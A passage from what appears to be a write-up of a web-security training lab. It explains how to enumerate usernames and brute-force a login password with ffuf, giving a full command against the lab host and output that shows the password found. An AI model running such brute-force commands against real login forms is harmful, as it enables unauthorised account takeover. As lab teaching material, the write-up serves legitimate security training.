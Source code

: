 The attack is performed using the HTTP POST method, and the "`-d`" flag is used to specify the data to be submitted with the request. In this case, the data includes the "`username`" parameter, which is being brute-forced using the "`FUZZ`" keyword, and a static "`password`" parameter with the value "`anything`". The "-H" flag is used to specify the "Content-Type" header of the request in that case it's "`application/x-www-form-urlencoded`".

The "`-fs`" flag is used to filter responses based on their size. In this case, only responses with a size of 2884 bytes will be considered valid.

We use the `ffuf` tool to perform this attack but we can use any other tools like Burp Suite, Wfuzz, Gobuster, etc. For using `ffuf` we should be careful to supply valid filter and request to this attack to get success. In the above case, we use the filter by size with the value 2884 but initially, we don't know which value we have to use to filter so in that case first we have to make a request without the `-fs` parameter that will show us so many responses with the following things
```
[Status: 200, Size: 2884, Words: 1097, Lines: 62, Duration: 194ms]
```

In the above results, we have to see which things are getting different like `Size: 2884`, `Words: 1097` etc we cannot use `Status: 200` because all the requests get `Status: 200` and if we filter that out then we cannot get any results. So we have to carefully choose the filter that we think should give us the correct results. Another thing we should be careful of is to specify the `Content-Type` Header in the POST request and its values according to the initial request in the browser. If we cannot specify that header then our request is invalid because the server doesn't understand our request type so they cannot parse our data, so we have to specify the `Content-Type` Header with its values either thats `application/json` or in that case, it's `application/x-www-form-urlencoded`. By carefully understanding what type of request we have to make we can successfully perform this attack.

So now you can understand what we did above and see the output you can see we get a valid username and that `app1`. Now we can brute-force its password by using this ffuf command.

```
$ ffuf -w ../password.txt:FUZZ -u https://0a75008d033bc680c07a3663004c0069.web-security-academy.net/login -X POST -d "username=app1&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -fc 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : POST
 :: URL              : https://0a75008d033bc680c07a3663004c0069.web-security-academy.net/login
 :: Wordlist         : FUZZ: ../password.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=app1&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response status: 200
________________________________________________

pass                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 196ms]
:: Progress: [100/100] :: Job [1/1] :: 19 req/sec :: Duration: [0:00:06] :: Errors: 0 ::
```
